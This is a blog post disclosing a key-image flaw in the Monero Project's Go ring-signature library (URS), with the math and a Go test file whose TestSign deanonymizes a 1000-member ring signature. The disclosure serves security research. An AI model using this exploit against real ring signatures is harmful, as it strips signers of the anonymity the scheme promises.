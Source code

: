 ```yaml
---
layout: post
tumblr_id: 1121203386
date: 2017-10-17 09:00:00 UTC
title: Unique Ring Signatures (URS) - broken cryptography
---
```


**Disclaimer:** the vulnerable code is <b>not</b> critical to the Monero cryptocurrency. 
The code is in no way or form used in the reference client of the CryptoNote protocol.
However the code is managed by the Monero Project. The repository is under the name of the project so it should be held to some standards.
Having old code laying around and disregarding it is not very smart. 


<hr />

The repository we analyzed is [Unique Ring Signature (URS)](https://github.com/monero-project/urs), a Golang implementation of traceable ring signatures.

The consequences of the vulnerability are sadly quite harsh, it results in **complete deanonymization of a ring signature**.
Basically the worst case scenario for this specific cryptographic construct.

The bug resides in constructing the KeyImage, more specifically in how it maps a hash to a point on the curve.

Currently the implementation does the following

$$H_p = (SHA256)(P_i) \cdot G$$

instead of mapping the hash to the curve indeterministically (logarithm unknown).

The **KeyImage** is equal to

$$I = x_i \cdot H_p(P_i)$$


then combining both formulas results in 

$$I = x_i \cdot (SHA256)(P_i) \cdot G$$

due to the commutative nature of scalar multiplication (in this particular instance) and keeping in mind that the public key is equal to 
$$P_i = x_i \cdot G$$, we get the following equation: 

$$I = P_i \cdot H_p(P_i)$$

An attacker is able to calculate the keyimage for all public keys of the ring and then match it with the one provided by the ring signature.

This is the same type of KeyImage bug that was discovered in [ShadowCash](https://web.archive.org/web/20160218042108/https://shnoe.wordpress.com/2016/02/11/de-anonymizing-shadowcash-and-oz-coin/).

<br />
### Exploit testcase
<hr>

When I discovered this bug I had no prior experience with Golang so I forwarded the issue over to **Tecnovert** to take a look at and verify that this was indeed the case.
He made a few additions to the existing testcase (urs_test.go). The modified version below will simply generate a ring signature with 1000 ring members and then deanonymize it.
You can easily check the additions to the test case [here](https://github.com/kewde/urs/commit/0998045192c0856d2120706a751e6f21f1c3a209). Note that **TestSign** is where the magic happens.



```golang
// Copyright 2014 Hein Meling and Haibin Zhang. All rights reserved.
// Additions made by tecnovert (Particl).
// Use of this source code is governed by the MIT
// license that can be found in the LICENSE file.

package main

import (
	"crypto/ecdsa"
	"crypto/elliptic"
	"crypto/sha256"
	crand "crypto/rand"
	"fmt"
	"math/rand"
	"runtime"
	"testing"
)

const numOfKeys = 1000

var (
	DefaultCurve = elliptic.P256()
	keyring      *PublicKeyRing
	testkey      *ecdsa.PrivateKey
	testmsg      []byte
	testsig      *RingSign
)

func TestGenerateKey(t *testing.T) {
	runtime.GOMAXPROCS(4)
	var err error
	testkey, err = GenerateKey(DefaultCurve, crand.Reader)
	if err != nil {
		fmt.Println(err.Error())
		t.FailNow()
	}
}

func TestNewPublicKeyRing(t *testing.T) {
	keyring = NewPublicKeyRing(1)
	keyring.Add(testkey.PublicKey)
	expectedLen := 1
	if len(keyring.Ring) != expectedLen {
		t.Errorf("len(keyring)=%d, expected %d", len(keyring.Ring), expectedLen)
	}
}

func TestPopulateKeyRing(t *testing.T) {
	keyring = NewPublicKeyRing(numOfKeys)
	rand.Seed(23)
	k := rand.Intn(numOfKeys)
	fmt.Println("Index of my key: ", k)
	for i := 0; i < numOfKeys; i++ {
		key, err := GenerateKey(DefaultCurve, crand.Reader)
		if err != nil {
			fmt.Println(err.Error())
			t.FailNow()
		}
		if i == k { // designate this as my key
			testkey = key
		}
		// add the public key part to the ring
		keyring.Add(key.PublicKey)
	}
	if len(keyring.Ring) != numOfKeys {
		t.Errorf("len(keyring)=%d, expected %d", len(keyring.Ring), numOfKeys)
	}
}

func TestSign(t *testing.T) {
	testmsg = []byte("Hello, world.")
	var err error
	testsig, err = Sign(crand.Reader, testkey, keyring, testmsg)
	if err != nil {
		fmt.Println(err.Error())
		t.FailNow()
	}

	fmt.Printf("testsig.hsx %s\n", testsig.X.String())
	fmt.Printf("testsig.hsy %s\n", testsig.Y.String())

	mR := append(testmsg, keyring.Bytes()...)

	c := keyring.Ring[0].Curve
	h := sha256.New()
	h.Write(mR)
	d := h.Sum(nil)

	fmt.Printf("looping through ring of %d\n", keyring.Len())
	for j := 0; j < keyring.Len(); j++ {

		rx, ry := c.ScalarMult(keyring.Ring[j].X, keyring.Ring[j].Y, d)

		//if testsig.X == rx && testsig.Y == ry {
		if testsig.X.String() == rx.String() && testsig.Y.String() == ry.String() {
			fmt.Printf("Found signing key: %d\nx: %s\ny: %s\n", j, rx.String(), ry.String())
		}
	}

}

func TestVerify(t *testing.T) {
	if !Verify(keyring, testmsg, testsig) {
		fmt.Println("urs: signature verification failed")
		t.FailNow()
	}
}

func BenchmarkSign(b *testing.B) {
	runtime.GOMAXPROCS(8)
	var err error
	for i := 0; i < b.N; i++ {
		testsig, err = Sign(crand.Reader, testkey, keyring, testmsg)
		if err != nil {
			fmt.Println(err.Error())
			b.FailNow()
		}
	}
}

func BenchmarkVerify(b *testing.B) {
	runtime.GOMAXPROCS(8)
	for i := 0; i < b.N; i++ {
		if !Verify(keyring, testmsg, testsig) {
			fmt.Println("urs: signature verification failed")
			b.FailNow()
		}
	}
}
```